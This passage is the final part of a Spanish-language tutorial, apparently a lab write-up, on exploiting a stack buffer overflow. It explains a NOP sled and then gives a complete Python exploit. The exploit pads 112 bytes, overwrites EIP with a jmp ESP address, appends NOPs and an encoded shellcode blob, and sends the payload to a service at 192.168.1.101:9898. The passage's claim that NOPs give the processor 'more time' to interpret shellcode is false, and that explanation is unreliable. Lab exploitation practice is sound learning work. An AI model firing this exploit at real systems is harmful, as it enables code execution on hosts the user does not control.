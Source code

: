 Una vez que se ha encontrado la dirección del opcode que aplica el salto al registro **ESP**, es posible que el shellcode no sea interpretado correctamente debido a que su ejecución puede requerir más tiempo del que el procesador tiene disponible antes de continuar con la siguiente instrucción del programa.

Para solucionar este problema, se suelen utilizar técnicas como la introducción de **NOPS** (**instrucciones de no operación**) antes del shellcode en la pila. Los NOPS no realizan ninguna operación, pero permiten que el procesador tenga tiempo adicional para interpretar el shellcode antes de continuar con la siguiente instrucción del programa.

Los nops en hexadecimal se representan como `\x90`

![nasm_shell](/assets/img/bof/nasm_shell_nop.png)

En nuestro script, utilizaremos un total de 32 nops lo cual otorgará suficiente tiempo al procesador para ejecutar nuestro shellcode.

## Exploit final

El exploit final quedaría de la siguiente forma:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.101"
port = 9898

offset = 112
before_eip = b"A" * 112
eip = b'\x55\x9d\x04\x08' # 0x08049d55 jmp ESP

shellcode =  b""
shellcode += b"\xba\xae\x9a\x58\xac\xd9\xc4\xd9\x74\x24\xf4"
shellcode += b"\x5e\x33\xc9\xb1\x12\x31\x56\x12\x83\xc6\x04"
shellcode += b"\x03\xf8\x94\xba\x59\x35\x72\xcd\x41\x66\xc7"
shellcode += b"\x61\xec\x8a\x4e\x64\x40\xec\x9d\xe7\x32\xa9"
shellcode += b"\xad\xd7\xf9\xc9\x87\x5e\xfb\xa1\xd7\x09\xfa"
shellcode += b"\x3f\xb0\x4b\xfd\x2e\x1c\xc5\x1c\xe0\xfa\x85"
shellcode += b"\x8f\x53\xb0\x25\xb9\xb2\x7b\xa9\xeb\x5c\xea"
shellcode += b"\x85\x78\xf4\x9a\xf6\x51\x66\x32\x80\x4d\x34"
shellcode += b"\x97\x1b\x70\x08\x1c\xd1\xf3"

nops = b'\x90' * 32

after_eip = nops + shellcode

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# connect to the server
s.connect((ip, port))

# send the payload
s.send(payload)

s.close()
```
